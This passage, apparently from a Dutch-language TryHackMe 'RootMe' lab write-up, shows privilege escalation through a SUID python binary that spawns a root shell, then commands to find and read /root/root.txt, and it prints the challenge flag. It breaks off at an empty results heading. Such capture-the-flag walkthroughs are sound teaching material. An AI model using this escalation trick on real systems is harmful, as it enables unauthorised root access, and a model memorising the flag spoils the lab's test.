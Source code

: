 ### Search for the file root.txt and open it.

Om te zoeken in de mappen van root en de bestanden te openen hebben we root rechten nodig. Om dit voor elkaar te krijgen maken we gebruik van de rootrechten in python.

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

Controleer of je root bent door:
```bash
whoami
```
Zoek nu naar de file:
```bash
find / -type f -name root.txt 2> /dev/null
```

Gebruik `cat` om de inhoud te bekijken
```bash
cat /root/root.txt
```

#### Resultaat:
![alt text](https://github.com/SvenvG0/THM/blob/main/RootMe/Images/root_txt.png?raw=true)

#### Antwoord:
```
THM{pr1v1l3g3_3sc4l4t10n}
```

### Use the Python command found under the heading SUID.
Gebruik de site die we reeds vonden en zoek naar `SUID`.
Hier vind je een python command.

>[!Tip]
>Zie `python`

#### Resultaat: